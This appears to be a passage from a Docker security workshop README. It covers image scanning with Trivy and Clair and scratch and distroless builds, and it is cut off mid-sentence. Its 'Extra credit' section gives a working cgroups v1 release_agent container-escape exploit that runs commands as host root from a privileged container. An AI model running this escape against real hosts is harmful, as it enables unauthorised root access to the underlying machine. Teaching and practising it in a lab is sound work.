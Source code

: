 Is this information relevant?

    docker run --rm -v /var/run/docker.sock:/var/run/docker.sock -v $PWD/.cache:/root/.cache/ aquasec/trivy node:lts-jessie-slim

What do you think about this?

Scanning with Clair

    mkdir $PWD/clair_config
    curl -L https://raw.githubusercontent.com/coreos/clair/master/config.yaml.sample -o $PWD/clair_config/config.yaml
    docker run -d -e POSTGRES_PASSWORD="" -p 5432:5432 postgres:9.6
    docker run --net=host -d -p 6060-6061:6060-6061 -v $PWD/clair_config:/config quay.io/coreos/clair-git:latest -config=/config/config.yaml

## 9 Distroless, multistage and scratch

Build a webserver that has no beginnings using first stage to build, and the scratch to run

    cd 6
    docker build -t httpsrv .
    docker run --name srv -d --rm -p 1230:5000 -v $PWD:/www httpsrv

Browse to http://localhost:1230/ to verify that its running.

Now try entering shell in this container

    docker exec -it srv /bin/sh

Now export the image and check tar contents

    docker save httpsrv -o srv.tar

What do you see?

Try the same on a distroless base

    docker run -it gcr.io/distroless/base /bin/sh


## Extra credit

Escape a container with a SYS_ADMIN cap

Spawn a new container to exploit

    docker run --rm -it --privileged ubuntu bash

Now run the following inside the container

    d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
    mkdir -p $d/w;echo 1 >$d/w/notify_on_release
    t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
    touch /o; echo $t/c >$d/release_agent;printf '#!/bin/sh\nps >'"$t/o" >/c;
    chmod +x /c;sh -c "echo 0 >$d/w/cgroup.procs";sleep 1;cat /o

It abuses the functionality of the notify_on_release feature in cgroups v1 to run the exploit as a fully privileged root user. For this to work
